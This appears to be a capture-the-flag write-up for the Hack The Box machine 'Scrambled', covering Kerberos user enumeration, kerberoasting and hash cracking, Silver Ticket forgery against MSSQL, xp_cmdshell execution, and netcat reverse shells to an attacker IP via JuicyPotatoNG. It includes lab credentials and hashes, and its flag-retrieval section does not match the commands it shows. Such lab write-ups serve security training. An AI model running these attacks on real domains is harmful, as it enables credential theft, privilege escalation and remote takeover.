# HTB - Scrambled

**IP Address:** `10.129.11.205`  
**OS:** Windows (Active Directory)  
**Difficulty:** Medium  
**Tags:** #ActiveDirectory #Kerberos #LDAP #SMB #MSSQL #SilverTicket

---

## Synopsis

Scrambled is an Active Directory host exposing the typical DC surface (**Kerberos/LDAP/SMB**) plus an IIS intranet site and **MSSQL**. The intranet’s IT section provides both a key constraint (NTLM is disabled) and a valid username, which pushes the workflow toward Kerberos-based enumeration. With a domain user, we can request service tickets (kerberoasting) and crack a service account password. Direct Kerberos MSSQL access is unreliable in this environment, so we pivot to a **Silver Ticket** to impersonate `Administrator` to the SQL service. From there, we use SQL command execution to stage tooling and retrieve proof via SQL file reads.

---

## Skills Required

- `nmap` + NSE/`-sCV` service identification
- Kerberos/AD enumeration concepts (realm/hostnames, ticket workflow)
- MSSQL access + SQL command execution basics (`xp_cmdshell`)
- Basic Windows file/flag hunting patterns

## Skills Learned

- Working effectively in a **Kerberos-first** environment where **NTLM is disabled**
- Kerberoasting an SPN account and cracking the service hash offline
- Forging a **Silver Ticket** to impersonate a privileged principal to **MSSQL**
- Using SQL Server features (`xp_cmdshell`, `OPENROWSET`) to execute and retrieve proof

---

## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.11.205
```



---

### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.11.205 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (fast and reliable for discovery)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery (treat host as up)  
- `-oG` : Output in grepable format (useful for parsing)  



Extract the open ports:

```bash
extractPorts allPorts
```


Extracted open ports from your run:

- `53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 1433, 3268, 3269, 4411, 5985, 9389, 49667, 49673, 49674, 49716, 49720`

---

### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49673,49674,49716,49720 10.129.11.205 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings (high level):**

| Port(s) | Service |
|---|---|
| 88 / 464 | Kerberos / kpasswd |
| 389 / 636 / 3268 / 3269 | LDAP / LDAPS / Global Catalog |
| 80 | IIS web |
| 445 | SMB |
| 1433 | Microsoft SQL Server |
| 5985 | WinRM |
| 4411 | Custom/unknown service bannered as `SCRAMBLECORP_ORDERS_V1.0.3;` |

---

## 2. Service Enumeration

### 2.1 SMB/RPC Baseline

On Windows AD targets, SMB/RPC is usually the fastest way to confirm hostname/domain hints and check share access.
However, this machine explicitly disables NTLM, so most “classic” SMB/RPC workflows (that rely on NTLM auth) will not get us far.
The goal here is to confirm that **NTLM-based authentication is a dead end** and pivot to Kerberos-first enumeration.

Examples of what was attempted (NTLM-based auth paths are not viable here):

```bash
crackmapexec smb 10.129.11.205
smbclient -L //10.129.11.205 -N
rpcclient -U '' -N 10.129.11.205
```



---

### 2.2 LDAP Probing

LDAP is a good companion to Kerberos on DC-like hosts: it can leak the domain naming context, hostnames, and user/group objects.
Even if it yields “nothing interesting”, it helps validate the realm and confirms we’re looking at an AD environment.

```bash
ldapsearch -x -H ldap://10.129.11.205 -s base namingcontexts
ldapsearch -x -H ldap://10.129.11.205 -b 'DC=scrm,DC=local'
```




---

### 2.3 Web Hints (NTLM Disabled + User Discovery)

When a Windows target hosts an intranet site, it often contains policy notes and internal hints (usernames, helpdesk process, password reset practices).
Here, the web app is also the cleanest place to confirm the “NTLM disabled” constraint.

Browse the intranet site:

```bash
firefox http://10.129.11.205/
```



The website’s IT services messaging indicates NTLM auth is disabled, steering the run toward Kerberos.



From “Contact IT” in the web UI, a username is revealed:



---

### 2.4 Kerberos User Enumeration

Once we have a candidate username and Kerberos is open (88/tcp), validate it against the domain controller using `kerbrute`.
This avoids wasting time on invalid accounts.

```bash
kerbrute userenum --dc 10.129.11.205 -d scrm.local users
```



---

## 3. Foothold

### 3.1 Kerberos-focused Service Material → Public Share → SQL Creds

With NTLM out of the picture, we lean on Kerberos-compatible tooling.
In this run, the web hints lead to a valid user whose credentials follow the IT policy pattern (**password == username**).
That user is then used to access SMB over Kerberos and pull a PDF containing SQL-related hints.

First, try the “password == username” pattern suggested by the IT policy, then use Kerberos-authenticated SMB access:

```bash
impacket-smbclient -k scrm.local/ksimpson:ksimpson@DC1.scrm.local
```




Download the PDF from the `Public` share and extract its text (quickly searchable in terminal):

```bash
pdftotext "Network Security Changes.pdf" -
```



With a valid domain user, we can request service tickets for accounts that have an SPN set (kerberoasting).
The goal is to obtain a crackable hash for a service account and recover a usable password.

```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local -dc-ip 10.129.11.205 -request
```



```bash
echo '<HASH>' > hash_sqlsvc
john -w:/usr/share/wordlists/rockyou.txt hash_sqlsvc
```

Crack the hash offline to recover the cleartext password:



Password: `Pegasus60`

---

## 4. Privilege Escalation

### 4.1 MSSQL Command Execution (Silver Ticket Path in Your Run)

At this point we have credentials for a SQL service account, but direct access is messy in a Kerberos-only setup.
Instead of fighting client/tooling edge-cases, we pivot to a Silver Ticket that targets MSSQL specifically.

Example of a failing attempt (captured):

```bash 
impacket-mssqlclient scrm.local/sqlsvc:Pegasus60@10.129.11.205
impacket-mssqlclient scrm.local/sqlsvc:Pegasus60@10.129.11.205 -windows-auth
impacket-getTGT scrm.local/sqlsvc:Pegasus60
export KRB5_CONFIG=sqlsvc.ccache
impacket-mssqlclient dc1.scrm.local -k
```



To perform a **Silver Ticket** against MSSQL we need:

- The **NTLM hash** of the `sqlsvc` password
- The **domain SID**
- The **SPN** of the SQL service

Convert the cracked password to an NTLM hash (any offline method is fine; a web generator was used in this run):





Retrieve the domain SID (captured here via `getPac.py`):



Forge a service ticket for MSSQL as `Administrator`, then connect using Kerberos:

```bash
# Create ticket (example arguments; use your real SID/hash/SPN)
ticketer.py -spn MSSQLSvc/dc1.scrm.local -domain scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 Administrator -domain scrm.local

# Use the generated ccache
export KRB5CCNAME="$(pwd)/Administrator.ccache"

# Connect to MSSQL with the forged ticket
mssqlclient.py scrm.local/Administrator@dc1.scrm.local -k -no-pass

# Configure xp_cmdshell
SELECT IS_SRVROLEMEMBER('sysadmin') AS is_sysadmin;
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```



From there, enable command execution and stage a reverse shell helper (this run uses `nc.exe` staged to `C:\Temp\netcat.exe`):

```sql
xp_cmdshell "C:\Temp\netcat.exe -e cmd 10.10.15.206 443"
```



Validate access / start enumerating for flags:

```sql
xp_cmdshell "dir /r /s user.txt"
```



Let's upload JuicyPotatoNG to sqlsvc machine with python server as before we did it with netcat. I rename the file to privesc.exe and I created the folder privesc in C:/Temp, after that I execute the next command meanshile I have rlwrap listening in port 443:

```bash
.\privesc.exe -t * -p C:\Windows\System32\cmd.exe -a "/c C:\Temp\netcat.exe -e cmd 10.10.15.206 443"
```



---

### 4.2 Flag Collection via SQL `OPENROWSET`

Instead of relying on an unstable/slow interactive shell path, retrieve proof directly from SQL using `OPENROWSET` on local file paths:

```sql
xp_cmdshell "dir /r /s user.txt"
xp_cmdshell "dir /r /s root.txt"
```



🏁 **User flag obtained**
🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE

---

## Summary of Exploitation Path

1. `nmap` discovery → AD/DC services + IIS + MSSQL + custom `4411`
2. Web hints (`NTLM disabled`) → user discovery (`ksimpson`)
3. SMB access with Kerberos → retrieve PDF → SQL service-account material
4. Kerberos-based Silver Ticket to reach MSSQL as `Administrator`
5. MSSQL `xp_cmdshell` for execution; retrieve flags via SQL `OPENROWSET` in your run
6. (Optional reference) official solve path continues through port `4411` for a SYSTEM shell

---

## Defensive Recommendations

- Enforce strong service account passwords and disable weak Kerberos abuse paths where possible.
- Restrict SQL permissions and audit `xp_cmdshell` usage; disable where not required.
- Monitor/limit outbound connections from SQL service to reduce staging risk.
- Remove unsafe .NET deserialization patterns; avoid `BinaryFormatter`-style transports.

